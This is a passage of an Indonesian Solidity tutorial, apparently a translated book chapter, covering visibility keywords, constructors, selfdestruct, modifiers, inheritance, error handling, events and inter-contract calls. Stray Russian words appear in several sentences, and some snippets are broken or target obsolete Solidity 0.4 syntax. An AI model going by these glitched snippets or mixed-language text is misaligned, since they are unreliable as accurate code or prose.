    Setelah nama, kami menentukan argumen yang harus diteruskan ke fungsi, dengan nama dan tipenya. Dalam contoh `Faucet` kami, kami mendefinisikan `uint withdraw_amount` sebagai satu-satunya argumen untuk fungsi `withdraw`.

Kumpulan kata kunci berikutnya (`public`, `private`, `internal`, `external`) menentukan **visibilitas** fungsi:

  * **`public`**
    *Public* adalah default; fungsi semacam itu dapat dipanggil oleh kontrak lain atau transaksi EOA, atau dari dalam kontrak. Dalam contoh `Faucet` kami, kedua fungsi didefinisikan sebagai *public*.
  * **`external`**
    Fungsi *external* seperti fungsi *public*, kecuali mereka tidak dapat dipanggil dari dalam kontrak kecuali secara eksplisit diawali dengan kata kunci `this`.
  * **`internal`**
    Fungsi *internal* hanya dapat diakses dari dalam kontrak—mereka не dapat dipanggil oleh kontrak lain или transaksi EOA. Mereka dapat dipanggil oleh kontrak turunan (yang mewarisi yang ini).
  * **`private`**
    Fungsi *private* seperti fungsi *internal* tetapi не dapat dipanggil oleh kontrak turunan.

Perlu diingat bahwa istilah `internal` dan `private` agak menyesatkan. Setiap fungsi atau data di dalam kontrak selalu **terlihat di blockchain publik**, artinya siapa pun dapat melihat kode atau data tersebut. Kata kunci yang dijelaskan di sini hanya memengaruhi bagaimana dan kapan sebuah fungsi dapat dipanggil.

Kumpulan kata kunci kedua (`pure`, `constant`, `view`, `payable`) memengaruhi **perilaku** fungsi:

  * **`constant` atau `view`**
    Sebuah fungsi yang ditandai sebagai `view` berjanji untuk tidak memodifikasi keadaan apa pun. Istilah `constant` adalah alias untuk `view` yang akan usang di rilis mendatang. Saat ini, kompiler tidak memberlakukan pengubah `view`, hanya menghasilkan peringatan, tetapi ini diharapkan menjadi kata kunci yang diberlakukan di v0.5 Solidity.
  * **`pure`**
    Fungsi `pure` adalah fungsi yang tidak membaca maupun menulis variabel apa pun di penyimpanan. Ia hanya dapat beroperasi pada argumen dan mengembalikan data, tanpa referensi ke data yang tersimpan. Fungsi `pure` dimaksudkan untuk mendorong pemrograman gaya deklaratif tanpa efek samping atau keadaan.
  * **`payable`**
    Fungsi `payable` adalah fungsi yang dapat menerima pembayaran masuk. Fungsi yang tidak dideklarasikan sebagai `payable` akan menolak pembayaran masuk. Ada dua pengecualian, karena keputusan desain di EVM: pembayaran *coinbase* dan warisan `SELFDESTRUCT` akan dibayarkan bahkan jika fungsi *fallback* не dideklarasikan sebagai `payable`, tetapi ini masuk akal karena eksekusi kode bukan bagian dari pembayaran tersebut.

Seperti yang Anda lihat di contoh `Faucet` kami, kami memiliki satu fungsi `payable` (fungsi *fallback*), yang merupakan satu-satunya fungsi yang dapat menerima pembayaran masuk.

#### Konstruktor Kontrak dan `selfdestruct`

Ada fungsi khusus yang hanya digunakan sekali. Saat sebuah kontrak dibuat, ia juga menjalankan **fungsi konstruktor** jika ada, untuk menginisialisasi keadaan kontrak. Konstruktor dijalankan dalam transaksi yang sama dengan pembuatan kontrak. Fungsi konstruktor bersifat opsional; Anda akan melihat contoh `Faucet` kami tidak memilikinya.

Konstruktor dapat ditentukan dengan dua cara. Hingga dan termasuk di Solidity v0.4.21, konstruktor adalah fungsi yang namanya cocok dengan nama kontrak, seperti yang dapat Anda lihat di sini:

```solidity
contract MEContract {
  function MEContract() {
    // Ini adalah konstruktor
  }
}
```

Kesulitan dengan format ini adalah jika nama kontrak diubah dan nama fungsi konstruktor tidak diubah, itu bukan lagi konstruktor. Demikian juga, jika ada kesalahan ketik yang tidak disengaja dalam penamaan kontrak dan/atau konstruktor, fungsi tersebut lagi-lagi bukan lagi konstruktor. Ini dapat menyebabkan beberapa *bug* yang cukup buruk, tidak terduga, dan sulit ditemukan. Bayangkan misalnya jika konstruktor mengatur pemilik kontrak untuk tujuan kontrol. Jika fungsi tersebut sebenarnya bukan konstruktor karena kesalahan penamaan, tidak hanya pemilik akan dibiarkan tidak diatur pada saat pembuatan kontrak, tetapi fungsi tersebut juga dapat diterapkan sebagai bagian permanen dan "dapat dipanggil" dari kontrak, seperti fungsi normal, memungkinkan pihak ketiga mana pun untuk membajak kontrak dan menjadi "pemilik" setelah pembuatan kontrak.

Untuk mengatasi masalah potensial dengan fungsi konstruktor yang didasarkan pada memiliki nama yang identik dengan kontrak, Solidity v0.4.22 memperkenalkan kata kunci **`constructor`** yang beroperasi seperti fungsi konstruktor tetapi tidak memiliki nama. Mengganti nama kontrak tidak memengaruhi konstruktor sama sekali. Juga, lebih mudah untuk mengidentifikasi fungsi mana yang merupakan konstruktor. Terlihat seperti ini:

```solidity
pragma ^0.4.22
contract MEContract {
  constructor () {
    // Ini adalah konstruktor
  }
}
```

Singkatnya, siklus hidup kontrak dimulai dengan transaksi pembuatan dari EOA atau akun kontrak. Jika ada konstruktor, itu dieksekusi sebagai bagian dari pembuatan kontrak, untuk menginisialisasi keadaan kontrak saat sedang dibuat, dan kemudian dibuang.

Ujung lain dari siklus hidup kontrak adalah penghancuran kontrak. Kontrak dihancurkan oleh *opcode* EVM khusus yang disebut **`SELFDESTRUCT`**. Dulu disebut `SUICIDE`, tetapi nama itu usang karena asosiasi negatif dari kata tersebut. Di Solidity, *opcode* ini diekspos sebagai fungsi bawaan tingkat tinggi yang disebut `selfdestruct`, yang mengambil satu argumen: alamat untuk menerima sisa saldo ether di akun kontrak. Terlihat seperti ini:

```solidity
selfdestruct(address recipient);
```

Perhatikan bahwa Anda harus secara eksplisit menambahkan perintah ini ke kontrak Anda jika Anda ingin dapat dihapus—ini adalah satu-satunya cara kontrak dapat dihapus, dan tidak ada secara default. Dengan cara ini, pengguna kontrak yang mungkin mengandalkan kontrak yang ada selamanya dapat yakin bahwa kontrak tidak dapat dihapus jika tidak berisi *opcode* `SELFDESTRUCT`.

##### Menambahkan Konstruktor dan `selfdestruct` ke Contoh Faucet Kami

Kontrak contoh `Faucet` yang kami perkenalkan di Bab 2 tidak memiliki fungsi konstruktor atau `selfdestruct`. Ini adalah kontrak abadi yang tidak dapat dihapus. Mari kita ubah itu, dengan menambahkan fungsi konstruktor dan `selfdestruct`. Kami mungkin ingin `selfdestruct` hanya dapat dipanggil oleh EOA yang awalnya membuat kontrak. Berdasarkan konvensi, ini biasanya disimpan dalam variabel alamat yang disebut `owner`. Konstruktor kami mengatur variabel `owner`, dan fungsi `selfdestruct` akan terlebih dahulu memeriksa bahwa `owner` yang memanggilnya secara langsung.

Pertama, konstruktor kami:

```solidity
// Versi kompiler Solidity yang digunakan untuk menulis program ini
pragma solidity ^0.4.22;

// Kontrak pertama kita adalah sebuah faucet!
contract Faucet {
  address owner;

  // Inisialisasi kontrak Faucet: atur owner
  constructor() {
    owner = msg.sender;
  }
[...]
```

Kami telah mengubah direktif *pragma* untuk menentukan v0.4.22 sebagai versi minimum untuk contoh ini, karena kami menggunakan kata kunci `constructor` baru yang diperkenalkan di Solidity v0.4.22. Kontrak kami sekarang memiliki variabel tipe `address` bernama `owner`. Nama “owner” tidak istimewa sama sekali. Kita bisa menamai variabel alamat ini “kentang” dan masih menggunakannya dengan cara yang sama. Nama `owner` hanya membuat tujuannya jelas.

Selanjutnya, konstruktor kami, yang berjalan sebagai bagian dari transaksi pembuatan kontrak, menetapkan alamat dari `msg.sender` ke variabel `owner`. Kami menggunakan `msg.sender` di fungsi `withdraw` untuk mengidentifikasi pemrakarsa permintaan penarikan. Namun, di konstruktor, `msg.sender` adalah EOA atau alamat kontrak yang memulai pembuatan kontrak. Kami tahu ini kasusnya karena ini adalah fungsi konstruktor: hanya berjalan sekali, selama pembuatan kontrak.

Sekarang kita bisa menambahkan fungsi untuk menghancurkan kontrak. Kita perlu memastikan bahwa hanya `owner` yang dapat menjalankan fungsi ini, jadi kita akan menggunakan pernyataan `require` untuk mengontrol akses. Begini tampilannya:

```solidity
// Destruktor kontrak
function destroy() public {
  require(msg.sender == owner);
  selfdestruct(owner);
}
```

Jika ada yang memanggil fungsi `destroy` ini dari alamat selain `owner`, itu akan gagal. Tetapi jika alamat yang sama yang disimpan di `owner` oleh konstruktor memanggilnya, kontrak akan menghancurkan diri sendiri dan mengirim sisa saldo ke alamat `owner`. Perhatikan bahwa kami tidak menggunakan `tx.origin` yang tidak aman untuk menentukan apakah `owner` ingin menghancurkan kontrak—menggunakan `tx.origin` akan memungkinkan kontrak jahat untuk menghancurkan kontrak Anda tanpa izin Anda.

#### Pengubah Fungsi (Function Modifiers)

Solidity menawarkan jenis fungsi khusus yang disebut **pengubah fungsi (*function modifier*)**. Anda menerapkan pengubah ke fungsi dengan menambahkan nama pengubah di deklarasi fungsi. Pengubah paling sering digunakan untuk membuat kondisi yang berlaku untuk banyak fungsi dalam sebuah kontrak. Kami sudah memiliki pernyataan kontrol akses, di fungsi `destroy` kami. Mari kita buat pengubah fungsi yang mengekspresikan kondisi itu:

```solidity
modifier onlyOwner {
  require(msg.sender == owner);
  _;
}
```

Pengubah fungsi ini, bernama `onlyOwner`, menetapkan kondisi pada setiap fungsi yang dimodifikasinya, mengharuskan alamat yang disimpan sebagai `owner` kontrak sama dengan alamat `msg.sender` transaksi. Ini adalah pola desain dasar untuk kontrol akses, hanya mengizinkan `owner` kontrak untuk mengeksekusi fungsi apa pun yang memiliki pengubah `onlyOwner`.

Anda mungkin telah memperhatikan bahwa pengubah fungsi (*function modifier*) kami memiliki "penampung" sintaksis yang aneh di dalamnya, yaitu garis bawah diikuti oleh titik koma (`_;`). Penampung ini digantikan oleh kode dari fungsi yang sedang dimodifikasi. Pada dasarnya, pengubah "membungkus" fungsi yang dimodifikasi, menempatkan kodenya di lokasi yang diidentifikasi oleh karakter garis bawah.

Untuk menerapkan sebuah pengubah, Anda menambahkan namanya ke dalam deklarasi fungsi. Lebih dari satu pengubah dapat diterapkan pada sebuah fungsi; mereka diterapkan dalam urutan deklarasi, sebagai daftar yang dipisahkan koma.

Mari kita tulis ulang fungsi `destroy` kita untuk menggunakan pengubah `onlyOwner`:

```solidity
function destroy() public onlyOwner {
  selfdestruct(owner);
}
```

Nama pengubah fungsi (`onlyOwner`) berada setelah kata kunci `public` dan memberitahu kita bahwa fungsi `destroy` dimodifikasi oleh pengubah `onlyOwner`. Pada dasarnya, Anda dapat membaca ini sebagai “Hanya pemilik yang dapat menghancurkan kontrak ini.” Dalam praktiknya, kode yang dihasilkan setara dengan "membungkus" kode dari `onlyOwner` di sekitar `destroy`.

Pengubah fungsi adalah alat yang sangat berguna karena memungkinkan kita untuk menulis prasyarat untuk fungsi dan menerapkannya secara konsisten, membuat kode lebih mudah dibaca dan, sebagai hasilnya, lebih mudah diaudit keamanannya. Mereka paling sering digunakan untuk kontrol akses, tetapi cukup serbaguna dan dapat digunakan untuk berbagai tujuan lain.

Di dalam sebuah pengubah, Anda dapat mengakses semua nilai (variabel dan argumen) yang terlihat oleh fungsi yang dimodifikasi. Dalam kasus ini, kita dapat mengakses variabel `owner`, yang dideklarasikan di dalam kontrak. Namun, kebalikannya tidak berlaku: Anda tidak dapat mengakses variabel pengubah di dalam fungsi yang dimodifikasi.

#### Pewarisan Kontrak (Contract Inheritance)

Objek `contract` di Solidity mendukung pewarisan (*inheritance*), yang merupakan mekanisme untuk memperluas kontrak dasar dengan fungsionalitas tambahan. Untuk menggunakan pewarisan, tentukan kontrak induk dengan kata kunci `is`:

```solidity
contract Child is Parent {
  ...
}
```

Dengan konstruksi ini, kontrak `Child` mewarisi semua metode, fungsionalitas, dan variabel dari `Parent`. Solidity juga mendukung pewarisan ganda (*multiple inheritance*), yang dapat ditentukan dengan nama kontrak yang dipisahkan koma setelah kata kunci `is`:

```solidity
contract Child is Parent1, Parent2 {
  ...
}
```

Pewarisan kontrak memungkinkan kita untuk menulis kontrak kita sedemikian rupa untuk mencapai modularitas, ekstensibilitas, dan penggunaan kembali. Kita mulai dengan kontrak yang sederhana dan mengimplementasikan kapabilitas paling umum, kemudian memperluasnya dengan mewarisi kapabilitas tersebut di kontrak yang lebih terspesialisasi.

Dalam kontrak `Faucet` kita, kita memperkenalkan konstruktor dan destruktor, bersama dengan kontrol akses untuk seorang `owner`, yang ditetapkan saat konstruksi. Kapabilitas tersebut cukup umum: banyak kontrak akan memilikinya. Kita dapat mendefinisikannya sebagai kontrak umum, lalu menggunakan pewarisan untuk memperluasnya ke kontrak `Faucet`.

Kita mulai dengan mendefinisikan kontrak dasar `owned`, yang memiliki variabel `owner`, dan mengaturnya di konstruktor kontrak:

```solidity
contract owned {
  address owner;

  // Konstruktor kontrak: atur owner
  constructor() {
    owner = msg.sender;
  }

  // Pengubah kontrol akses
  modifier onlyOwner {
    require(msg.sender == owner);
    _;
  }
}
```

Selanjutnya, kita mendefinisikan kontrak dasar `mortal`, yang mewarisi `owned`:

```solidity
contract mortal is owned {
  // Destruktor kontrak
  function destroy() public onlyOwner {
    selfdestruct(owner);
  }
}
```

Seperti yang Anda lihat, kontrak `mortal` dapat menggunakan pengubah fungsi `onlyOwner`, yang didefinisikan di `owned`. Secara tidak langsung, ia juga menggunakan variabel alamat `owner` dan konstruktor yang didefinisikan di `owned`. Pewarisan membuat setiap kontrak lebih sederhana dan terfokus pada fungsionalitas spesifiknya, memungkinkan kita mengelola detail secara modular.

Sekarang kita dapat memperluas kontrak `owned` lebih jauh, mewarisi kapabilitasnya di `Faucet`:

```solidity
contract Faucet is mortal {
  // Memberikan ether kepada siapa saja yang meminta
  function withdraw(uint withdraw_amount) public {
    // Batasi jumlah penarikan
    require(withdraw_amount <= 0.1 ether);

    // Kirim jumlah tersebut ke alamat yang memintanya
    msg.sender.transfer(withdraw_amount);
  }

  // Menerima jumlah yang masuk
  function () public payable {}
}
```

Dengan mewarisi `mortal`, yang pada gilirannya mewarisi `owned`, kontrak `Faucet` sekarang memiliki fungsi konstruktor dan `destroy`, serta `owner` yang terdefinisi. Fungsionalitasnya sama seperti ketika fungsi-fungsi tersebut berada di dalam `Faucet`, tetapi sekarang kita dapat menggunakan kembali fungsi-fungsi tersebut di kontrak lain tanpa menuliskannya lagi. Penggunaan kembali kode dan modularitas membuat kode kita lebih bersih, lebih mudah dibaca, dan lebih mudah diaudit.

#### Penanganan Kesalahan (assert, require, revert)

Panggilan kontrak dapat berakhir dan mengembalikan kesalahan. Penanganan kesalahan di Solidity ditangani oleh empat fungsi: `assert`, `require`, `revert`, dan `throw` (sekarang sudah usang).

Ketika sebuah kontrak berakhir dengan kesalahan, semua perubahan keadaan (perubahan pada variabel, saldo, dll.) **dikembalikan (*reverted*)**, hingga ke atas rantai panggilan kontrak jika lebih dari satu kontrak dipanggil. Ini memastikan bahwa transaksi bersifat **atomik**, artinya mereka akan selesai dengan sukses atau tidak berpengaruh sama sekali pada keadaan dan dikembalikan sepenuhnya.

Fungsi `assert` dan `require` beroperasi dengan cara yang sama, mengevaluasi suatu kondisi dan menghentikan eksekusi dengan kesalahan jika kondisi tersebut salah. Berdasarkan konvensi, **`assert`** digunakan ketika hasilnya diharapkan benar, artinya kita menggunakan `assert` untuk menguji **kondisi internal**. Sebagai perbandingan, **`require`** digunakan saat menguji **input** (seperti argumen fungsi atau bidang transaksi), menetapkan ekspektasi kita untuk kondisi tersebut.

Kita telah menggunakan `require` di pengubah fungsi `onlyOwner` kita, untuk menguji bahwa pengirim pesan adalah pemilik kontrak:

```solidity
require(msg.sender == owner);
```

Fungsi `require` bertindak sebagai kondisi gerbang, mencegah eksekusi sisa fungsi dan menghasilkan kesalahan jika tidak terpenuhi.

Mulai dari Solidity v0.4.22, `require` juga dapat menyertakan pesan teks yang membantu yang dapat digunakan untuk menunjukkan alasan kesalahan. Pesan kesalahan dicatat dalam log transaksi. Jadi, kita dapat meningkatkan kode kita dengan menambahkan pesan kesalahan di fungsi `require` kita:

```solidity
require(msg.sender == owner, "Only the contract owner can call this function");
```

Fungsi `revert` dan `throw` menghentikan eksekusi kontrak dan mengembalikan setiap perubahan keadaan. Fungsi `throw` sudah usang dan akan dihapus di versi Solidity mendatang; Anda harus menggunakan `revert` sebagai gantinya. Fungsi `revert` juga dapat mengambil pesan kesalahan sebagai satu-satunya argumen, yang dicatat dalam log transaksi.

Kondisi tertentu dalam sebuah kontrak akan menghasilkan kesalahan terlepas dari apakah kita secara eksplisit memeriksanya. Misalnya, di kontrak `Faucet` kita, kita tidak memeriksa apakah ada cukup ether untuk memenuhi permintaan penarikan. Itu karena fungsi `transfer` akan gagal dengan kesalahan dan mengembalikan transaksi jika tidak ada saldo yang cukup untuk melakukan transfer:

```solidity
msg.sender.transfer(withdraw_amount);
```

Namun, mungkin lebih baik untuk memeriksa secara eksplisit dan memberikan pesan kesalahan yang jelas jika gagal. Kita bisa melakukan itu dengan menambahkan pernyataan `require` sebelum transfer:

```solidity
require(address(this).balance >= withdraw_amount, "Insufficient balance in faucet for withdrawal request");

msg.sender.transfer(withdraw_amount);
```

Kode pemeriksaan kesalahan tambahan seperti ini akan sedikit meningkatkan konsumsi gas, tetapi menawarkan pelaporan kesalahan yang lebih baik daripada jika dihilangkan. Anda perlu menemukan keseimbangan yang tepat antara konsumsi gas dan pemeriksaan kesalahan yang detail berdasarkan penggunaan yang diharapkan dari kontrak Anda. Dalam kasus kontrak `Faucet` yang ditujukan untuk *testnet*, kami mungkin akan memilih pelaporan tambahan meskipun biayanya lebih mahal. Mungkin untuk kontrak *mainnet* kami akan memilih untuk hemat dalam penggunaan gas.

#### Kejadian (Events)

Ketika sebuah transaksi selesai (berhasil atau tidak), ia menghasilkan **resi transaksi (*transaction receipt*)**, seperti yang akan kita lihat di Bab 13. Resi transaksi berisi entri log yang memberikan informasi tentang tindakan yang terjadi selama eksekusi transaksi. **Events** adalah objek tingkat tinggi Solidity yang digunakan untuk membuat log ini.

*Events* sangat berguna untuk klien ringan (*light clients*) dan layanan DApp, yang dapat "mengamati" *event* spesifik dan melaporkannya ke antarmuka pengguna, atau membuat perubahan pada keadaan aplikasi untuk mencerminkan *event* di kontrak yang mendasarinya.

Objek *event* mengambil argumen yang diserialisasi dan dicatat dalam log transaksi, di blockchain. Anda dapat memberikan kata kunci `indexed` sebelum sebuah argumen, untuk membuat nilainya menjadi bagian dari tabel terindeks (tabel hash) yang dapat dicari atau difilter oleh aplikasi.

Sejauh ini kami belum menambahkan *event* apa pun di contoh `Faucet` kami, jadi mari kita lakukan itu. Kami akan menambahkan dua *event*, satu untuk mencatat setiap penarikan dan satu untuk mencatat setiap setoran. Kami akan menamai *event* ini `Withdrawal` dan `Deposit`. Pertama, kami mendefinisikan *event* di dalam kontrak `Faucet`:

```solidity
contract Faucet is mortal {
  event Withdrawal(address indexed to, uint amount);
  event Deposit(address indexed from, uint amount);

  [...]
}
```

Kami memilih untuk membuat alamat menjadi `indexed`, untuk memungkinkan pencarian dan pemfilteran di setiap antarmuka pengguna yang dibangun untuk mengakses `Faucet` kami.

Selanjutnya, kami menggunakan kata kunci `emit` untuk memasukkan data *event* ke dalam log transaksi:

```solidity
// Memberikan ether kepada siapa saja yang meminta
function withdraw(uint withdraw_amount) public {
  [...]
  msg.sender.transfer(withdraw_amount);
  emit Withdrawal(msg.sender, withdraw_amount);
}

// Menerima jumlah yang masuk
function () public payable {
  emit Deposit(msg.sender, msg.value);
}
```

Kontrak `Faucet.sol` yang dihasilkan terlihat seperti Contoh 7-3.

**Contoh 7-3. Faucet8.sol: Kontrak Faucet yang direvisi, dengan events**

```solidity
1 // Versi kompiler Solidity yang digunakan untuk menulis program ini
2 pragma solidity ^0.4.22;
3
4 contract owned {
5   address owner;
6   // Konstruktor kontrak: atur owner
7   constructor() public {
8     owner = msg.sender;
9   }
10  // Pengubah kontrol akses
11  modifier onlyOwner {
12    require(msg.sender == owner,
13      "Only the contract owner can call this function");
14    _;
15  }
16 }
17
18 contract mortal is owned {
19  // Destruktor kontrak
20  function destroy() public onlyOwner {
21    selfdestruct(owner);
22  }
23 }
24
25 contract Faucet is mortal {
26  event Withdrawal(address indexed to, uint amount);
27  event Deposit(address indexed from, uint amount);
28
29  // Memberikan ether kepada siapa saja yang meminta
30  function withdraw(uint withdraw_amount) public {
31    // Batasi jumlah penarikan
32    require(withdraw_amount <= 0.1 ether);
33
34    require(address(this).balance >= withdraw_amount,
35      "Insufficient balance in faucet for withdrawal request");
36
37    // Kirim jumlah tersebut ke alamat yang memintanya
38    msg.sender.transfer(withdraw_amount);
39    emit Withdrawal(msg.sender, withdraw_amount);
40  }
41  // Menerima jumlah yang masuk
42  function () public payable {
43    emit Deposit(msg.sender, msg.value);
44  }
45 }
```

##### Menangkap *events*

Oke, jadi kita sudah mengatur kontrak kita untuk memancarkan *event*. Bagaimana kita melihat hasil dari sebuah transaksi dan "menangkap" *event* tersebut? Pustaka `web3.js` menyediakan struktur data yang berisi log transaksi. Di dalamnya kita bisa melihat *event* yang dihasilkan oleh transaksi tersebut.

Mari kita gunakan Truffle untuk menjalankan transaksi uji pada kontrak `Faucet` yang telah direvisi. Ikuti petunjuk di “Truffle” di halaman 345 untuk menyiapkan direktori proyek dan mengkompilasi kode `Faucet`. Kode sumber dapat ditemukan di repositori GitHub buku ini di bawah `code/truffle/FaucetEvents`.

```bash
$ truffle develop
truffle(develop)> compile
truffle(develop)> migrate
Using network 'develop'.

Running migration: 1_initial_migration.js
  Deploying Migrations...
  ... 0xb77ceae7c3f5afb7fbe3a6c5974d352aa844f53f955ee7d707ef6f3f8e6b4e61
  Migrations: 0x8cdaf0cd259887258bc13a92c0a6da92698644c0
Saving successful migration to network...
  ... 0xd7bc86d31bee32fa3988f1c1eabce403a1b5d570340a3a9cdba53a472ee8c956
Saving artifacts...
Running migration: 2_deploy_contracts.js
  Deploying Faucet...
  ... 0xfa850d754314c3fb83f43ca1fa6ee20bc9652d891c00a2f63fd43ab5bfb0d781
  Faucet: 0x345ca3e014aaf5dca488057592ee47305d9b3e10
Saving successful migration to network...
  ... 0xf36163615f41ef7ed8f4a8f192149a0bf633fe1a2398ce001bf44c43dc7bdda0
Saving artifacts...

truffle(develop)> Faucet.deployed().then(i => {FaucetDeployed = i})
truffle(develop)> FaucetDeployed.send(web3.utils.toWei("1", "ether")).then(res => { console.log(res.logs[0].event, res.logs[0].args) })
Deposit {
  from: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
  amount: BigNumber { s: 1, e: 18, c: [ 10000 ] }
}
truffle(develop)> FaucetDeployed.withdraw(web3.utils.toWei("0.1", "ether")).then(res => { console.log(res.logs[0].event, res.logs[0].args) })
Withdrawal {
  to: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
  amount: BigNumber { s: 1, e: 17, c: [ 1000 ] }
}
```

Setelah menerapkan kontrak menggunakan fungsi `deployed`, kami menjalankan dua transaksi. Transaksi pertama adalah setoran (menggunakan `send`), yang memancarkan *event* `Deposit` di log transaksi:

```
Deposit { from: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
amount: BigNumber { s: 1, e: 18, c: [ 10000 ] } }
```

Selanjutnya, kami menggunakan fungsi `withdraw` untuk melakukan penarikan. Ini memancarkan *event* `Withdrawal`:

```
Withdrawal { to: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
amount: BigNumber { s: 1, e: 17, c: [ 1000 ] } }
```

Untuk mendapatkan *event* ini, kami melihat larik `logs` yang dikembalikan sebagai hasil (`res`) dari transaksi. Entri log pertama (`logs[0]`) berisi nama *event* di `logs[0].event` dan argumen *event* di `logs[0].args`. Dengan menampilkannya di konsol, kita bisa melihat nama *event* yang dipancarkan dan argumennya.

*Events* adalah mekanisme yang sangat berguna, tidak hanya untuk komunikasi antar-kontrak, tetapi juga untuk *debugging* selama pengembangan.

#### Memanggil Kontrak Lain (send, call, callcode, delegatecall)

Memanggil kontrak lain dari dalam kontrak Anda adalah operasi yang sangat berguna tetapi berpotensi berbahaya. Kami akan memeriksa berbagai cara Anda dapat mencapainya dan mengevaluasi risiko dari setiap metode. Singkatnya, risiko muncul dari fakta bahwa Anda mungkin tidak tahu banyak tentang kontrak yang Anda panggil atau yang memanggil kontrak Anda. Saat menulis kontrak pintar, Anda harus ingat bahwa meskipun Anda mungkin sebagian besar berharap berurusan dengan EOA, tidak ada yang menghentikan kontrak yang sewenang-wenang kompleks dan mungkin jahat untuk memanggil dan dipanggil oleh kode Anda.

##### Membuat instansi baru

Cara paling aman untuk memanggil kontrak lain adalah jika Anda membuat kontrak lain itu sendiri. Dengan begitu, Anda yakin akan antarmuka dan perilakunya. Untuk melakukan ini, Anda cukup membuat instansinya, menggunakan kata kunci `new`, seperti di bahasa berorientasi objek lainnya. Di Solidity, kata kunci `new` akan membuat kontrak di blockchain dan mengembalikan objek yang dapat Anda gunakan untuk merujuknya. Katakanlah Anda ingin membuat dan memanggil kontrak `Faucet` dari dalam kontrak lain bernama `Token`:

```solidity
contract Token is mortal {
  Faucet _faucet;
  constructor() public {
    _faucet = new Faucet();
  }
}
```

Mekanisme pembuatan kontrak ini memastikan bahwa Anda mengetahui jenis kontrak yang tepat dan antarmukanya. Kontrak `Faucet` harus didefinisikan dalam lingkup `Token`, yang dapat Anda lakukan dengan pernyataan `import` jika definisinya ada di file lain:

```solidity
import "Faucet.sol";

contract Token is mortal {
  Faucet _faucet;
  constructor() public {
    _faucet = new Faucet();
  }
}
```

Anda dapat secara opsional menentukan nilai transfer ether saat pembuatan, dan meneruskan argumen ke konstruktor kontrak baru:

```solidity
import "Faucet.sol";

contract Token is mortal {
  Faucet _faucet;
  constructor() public {
    _faucet = (new Faucet).value(0.5 ether)();
  }
}
```

Anda kemudian juga dapat memanggil fungsi `Faucet`. Dalam contoh ini, kami memanggil fungsi `destroy` dari `Faucet` dari dalam fungsi `destroy` dari `Token`:

```solidity
import "Faucet.sol";

contract Token is mortal {
  Faucet _faucet;
  constructor() public {
    _faucet = (new Faucet).value(0.5 ether)();
  }

  function destroy() public ownerOnly {
    _faucet.destroy();
  }
}
```

Perhatikan bahwa meskipun Anda adalah pemilik kontrak `Token`, kontrak `Token` itu sendiri yang memiliki kontrak `Faucet` baru, jadi hanya kontrak `Token` yang dapat menghancurkannya.

##### Mengalamatkan instansi yang ada

Cara lain Anda dapat memanggil kontrak adalah dengan melakukan *casting* alamat dari instansi kontrak yang ada. Dengan metode ini, Anda menerapkan antarmuka yang diketahui ke instansi yang ada. Oleh karena itu, sangat penting bagi Anda untuk mengetahui, dengan pasti, bahwa instansi yang Anda alamatkan sebenarnya adalah tipe yang Anda asumsikan. Mari kita lihat sebuah contoh:

```solidity
import "Faucet.sol";

contract Token is mortal {
  Faucet _faucet;
  constructor(address _f) public {
    _faucet = Faucet(_f);
    _faucet.withdraw(0.1 ether);
  }
}
```

Di sini, kami mengambil alamat yang diberikan sebagai argumen ke konstruktor, `_f`, dan kami melakukan *casting* menjadi objek `Faucet`. Ini jauh lebih berisiko daripada mekanisme sebelumnya, karena kami tidak tahu pasti apakah alamat itu sebenarnya adalah objek `Faucet`. Ketika kami memanggil `withdraw`, kami mengasumsikan bahwa ia menerima argumen yang sama dan menjalankan kode yang sama seperti deklarasi `Faucet` kami, tetapi kami tidak bisa yakin. Sejauh yang kami tahu, fungsi `withdraw` di alamat ini dapat mengeksekusi sesuatu yang sama sekali berbeda dari yang kami harapkan, bahkan jika namanya sama. Menggunakan alamat yang diteruskan sebagai input dan melakukan *casting* menjadi objek tertentu oleh karena itu jauh lebih berbahaya daripada membuat kontrak sendiri.

##### Panggilan mentah, `call`, `delegatecall`

Solidity menawarkan beberapa fungsi tingkat lebih "rendah" untuk memanggil kontrak lain. Ini sesuai langsung dengan *opcode* EVM dengan nama yang sama dan memungkinkan kita untuk membuat panggilan kontrak-ke-kontrak secara manual. Dengan demikian, mereka mewakili mekanisme yang paling fleksibel dan paling berbahaya untuk memanggil kontrak lain.

Berikut adalah contoh yang sama, menggunakan metode `call`:

```solidity
contract Token is mortal {
  constructor(address _faucet) public {
    _faucet.call("withdraw", 0.1 ether);
  }
}
```

Seperti yang Anda lihat, jenis panggilan ini adalah panggilan buta ke sebuah fungsi, sangat mirip dengan membuat transaksi mentah, hanya dari dalam konteks kontrak. Ini dapat mengekspos kontrak Anda ke sejumlah risiko keamanan, yang paling penting adalah *reentrancy*, yang akan kita bahas lebih detail di “Reentrancy” di halaman 173. Fungsi `call` akan mengembalikan `false` jika ada masalah, jadi Anda dapat mengevaluasi nilai kembali untuk penanganan kesalahan:

```solidity
contract Token is mortal {
  constructor(address _faucet) public {
    if (!(_faucet.call("withdraw", 0.1 ether))) {
      revert("Withdrawal from faucet failed");
    }
  }
}
```

Varian lain dari `call` adalah `delegatecall`, yang menggantikan `callcode` yang lebih berbahaya. Metode `callcode` akan segera usang, jadi tidak boleh digunakan.

Seperti yang disebutkan di “Objek `address`” di halaman 139, `delegatecall` berbeda dari `call` karena konteks `msg` tidak berubah. Misalnya, sementara `call` mengubah nilai `msg.sender` menjadi kontrak pemanggil, `delegatecall` menjaga `msg.sender` yang sama seperti di kontrak pemanggil. Pada dasarnya, `delegatecall` menjalankan kode dari kontrak lain di dalam konteks eksekusi dari kontrak saat ini. Ini paling sering digunakan untuk memanggil kode dari sebuah pustaka. Ini juga memungkinkan Anda untuk memanfaatkan pola penggunaan fungsi pustaka yang disimpan di tempat lain, tetapi membuat kode itu bekerja dengan data penyimpanan dari kontrak Anda.

`delegatecall` harus digunakan dengan sangat hati-hati. Ini dapat memiliki beberapa efek tak terduga, terutama jika kontrak yang Anda panggil tidak dirancang sebagai pustaka.

Mari kita gunakan kontrak contoh untuk mendemonstrasikan berbagai semantik panggilan yang digunakan oleh `call` dan `delegatecall` untuk memanggil pustaka dan kontrak. Dalam Contoh 7-4, kami menggunakan *event* untuk mencatat detail setiap panggilan dan melihat bagaimana konteks panggilan berubah tergantung pada jenis panggilan.

**Contoh 7-4. CallExamples.sol: Contoh semantik panggilan yang berbeda**

```solidity
1 pragma solidity ^0.4.22;
2
3 contract calledContract {
